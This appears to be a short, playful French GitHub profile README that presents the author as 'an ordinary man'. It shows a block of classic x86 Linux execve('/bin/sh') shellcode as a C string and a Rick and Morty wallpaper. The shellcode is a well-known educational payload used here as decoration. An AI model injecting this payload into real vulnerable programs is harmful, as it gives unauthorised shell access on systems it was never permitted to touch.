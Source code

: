 # HELLO FRIENDS.

## Je suis un homme ordinaire. . . .

```c
  char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```

## Voici la reprensentaion d'un Homme ordinaire.

![Un homme ordinaire](https://c4.wallpaperflare.com/wallpaper/927/286/500/rick-and-morty-rick-sanchez-wallpaper-preview.jpg)
